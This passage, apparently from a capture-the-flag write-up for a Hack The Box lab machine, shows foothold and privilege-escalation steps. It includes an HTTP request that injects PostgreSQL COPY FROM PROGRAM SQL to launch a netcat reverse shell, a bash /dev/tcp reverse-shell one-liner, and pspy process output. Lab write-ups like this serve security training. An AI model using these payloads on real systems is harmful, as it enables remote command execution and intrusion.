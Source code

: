 Afterwards, we can spawn a reverse shell connection to our local listener by sending the following requests

```
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
Content-Length: 504
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
content-type: application/json
accept: application/json, text/plain, */*
Origin: http://kiosk.jupiter.htb
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"queries":[{"refId":"","datasource":{"type":"postgres","uid":""},"rawSql":"DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec from PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 4000 >/tmp/f';SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":839}],"range":{"from":"2023-10-04T10:21:07.326Z","to":"2023-10-04T16:21:07.326Z","raw":{"from":"now-6h","to":"now"}},"from":"1696414867326","to":"1696436467326"}
```

However, we notice that this reverse shell connection is unstable and quickly times out which will break our connection. In order to make this connection more stable, we will execute another reverse shell connection upon obtaining our first reverse shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.216] 35648
sh: 0: can't access tty; job control turned off
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/3000 0>&1'
```

# Privilege Escalation to juno
Using pspy, we can find that there is a background process thate executes /dev/shm/network-simulation.yml

```
2023/10/05 03:10:02 CMD: UID=1000  PID=32551  | /bin/bash /home/juno/shadow-simulation.sh 
2023/10/05 03:10:02 CMD: UID=1000  PID=32552  | rm -rf /dev/shm/shadow.data 
2023/10/05 03:10:02 CMD: UID=1000  PID=32553  | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/10/05 03:10:02 CMD: UID=1000  PID=32556  | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/10/05 03:10:02 CMD: UID=1000  PID=32557  | 
2023/10/05 03:10:02 CMD: UID=1000  PID=32562  | /usr/bin/python3 -m http.server 80 
2023/10/05 03:10:02 CMD: UID=1000  PID=32563  | /usr/bin/curl -s server 
2023/10/05 03:10:02 CMD: UID=1000  PID=32565  | /usr/bin/curl -s server 
2023/10/05 03:10:02 CMD: UID=1000  PID=32567  | /usr/bin/curl -s server 
2023/10/05 03:10:02 CMD: UID=1000  PID=32572  | cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```
